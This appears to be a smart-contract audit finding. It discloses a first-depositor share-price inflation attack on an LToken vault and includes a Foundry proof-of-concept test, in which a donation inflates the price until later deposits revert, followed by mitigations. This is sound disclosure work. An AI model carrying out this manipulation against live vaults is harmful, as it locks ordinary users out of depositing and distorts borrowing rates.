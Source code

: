 cergyk
# First user can set arbitrary price, which may prevent some users to deposit

## [M] First user can set arbitrary price, which may prevent some users to deposit
### Problem
First user can set share price by sending tokens to the system externally, price can be very high. As result a lot of users will not be able to deposit.
And borrowers will have smaller amount to borrow and higher interest rate to pay, because amount of underlying asset is smaller, because less amount of people are able to deposit.

### Proof of Concept
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testSharePriceManipulation() public{
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);

        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewDeposit(80 ether), 0);
        assertEq(lErc20.previewDeposit(100 ether + 1), 1);

        //bob cannot deposit below share price which can be very expensive
        cheats.expectRevert("ZERO_SHARES");
        cheats.prank(bob);
        lErc20.deposit(80 ether, bob);
    }
```

### Mitigation
Force users to deposit at least some amount in the LToken vault .
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2

